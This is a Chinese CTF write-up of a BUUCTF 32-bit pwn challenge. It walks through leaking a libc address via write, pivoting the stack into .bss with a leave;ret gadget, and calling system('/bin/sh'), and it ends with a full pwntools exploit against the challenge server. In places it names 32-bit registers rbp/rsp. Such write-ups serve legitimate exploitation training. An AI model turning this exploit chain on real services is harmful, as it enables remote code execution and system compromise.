 ### Write 泄露 Libc 结合 32 位栈迁移

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67d8f95e88c538a9b5c01e7b.png)

先输出 m1 的内容

然后读取输入到 bss 段中

然后输出 m2 的内容

然后读取输入到缓冲区中

![](https://pic1.imgdb.cn/item/67d908df88c538a9b5c0226f.png)

打印的两端内容如下

![](https://pic1.imgdb.cn/item/67d909c388c538a9b5c022c9.png)

但是溢出的长度太小，没办法构造很长的 ROP

可以尝试栈迁移到 s 处

先泄露 libc

```python
payload = p32(write_plt) + p32(main) + p32(1) + p32(write_got) + p32(4)

r.recvuntil("What is your name?")
r.send(payload)
```

此时 s 处布局如下

![](https://pic1.imgdb.cn/item/67d90b0788c538a9b5c02333.png)

找下 `leave;ret` 指令

![](https://pic1.imgdb.cn/item/67d90bc188c538a9b5c0237a.png)

我们在给 buf 参数赋值的时候，溢出后将 rbp 覆写成 `s-4` 的地址，函数返回地址覆写成 `leave；ret` 指令的地址

```python
payload1 = b'a' * 0x18 + p32(s - 4) + p32(leave_ret)
```

![](https://pic1.imgdb.cn/item/67d90ca588c538a9b5c023f1.png)

首先程序正常结束了，去调用程序本身的 `leave；ret` 来还原现场

根据我们对栈的布局，`mov rsp，rbp` -> 将 rsp 指向了 rbp，栈变成了这个样子

![](https://pic1.imgdb.cn/item/67d90d5d88c538a9b5c0242a.png)

`pop rbp` -> rbp 寄存器被我们设置成了参数 s-4 的地址，指向了我们布置好的栈上方

这边 -4 是因为我们第二次执行 `pop rbp` 给 rbp 赋值的时候，会将 `rsp+4`

如果不减去 4，rsp 就在程序一开始的时候指向的不是栈顶，而是栈顶 +4 的位置

我们之后读取数据会丢失一开始的 4 字节，所以需要一开始的时候将指针往上抬 4 字节，栈变成了这个样子

![](https://pic1.imgdb.cn/item/67d90dcd88c538a9b5c02460.png)

再次执行 `leave；ret` 指令

`mov rsp,rbp` -> rsp 指向了参数 `s-4` 的位置，栈布局现在是这样

![](https://pic1.imgdb.cn/item/67d90e4088c538a9b5c0246f.png)

`pop rbp` -> 弹出栈顶的值给 rbp，之后栈变成了这样，我们成功将 esp 指针劫持到了我们布置好的栈上

![](https://pic1.imgdb.cn/item/67d90e8088c538a9b5c02476.png)

接下来它就会去执行我们布置好的泄露 libc 的步骤

我们去接收它输出的 write 函数地址，就知道了 libc 版本

接下来就能去构造 `system('/bin/sh')` 了

接下来在重复一下上述的控制流程，就能拿到 shell 了

```python
from pwn import *
from LibcSearcher import *

# p = process('./spwn')
r = remote('node5.buuoj.cn',28433)

elf = ELF('./spwn')
write_plt = elf.plt['write']
write_got = elf.got['write']
main = 0x8048513
s = 0x0804A300
leave_ret = 0x08048408

payload = p32(write_plt) + p32(main) + p32(1) + p32(write_got) + p32(4)

r.recvuntil("What is your name?")
r.send(payload)

payload1 = b'a' * 0x18 + p32(s-4) + p32(leave_ret)

r.recvuntil("What do you want to say?")
r.send(payload1)

write_addr = u32(r.recv(4))

libc = LibcSearcher('write',write_addr)
libc_base = write_addr - libc.dump('write')
system = libc_base + libc.dump('system')
sh = libc_base + libc.dump('str_bin_sh')

payload = p32(system) + p32(0) + p32(sh)

r.recvuntil("name?")
r.sendline(payload)
r.recvuntil("say?")
r.sendline(payload1)
r.interactive()
```

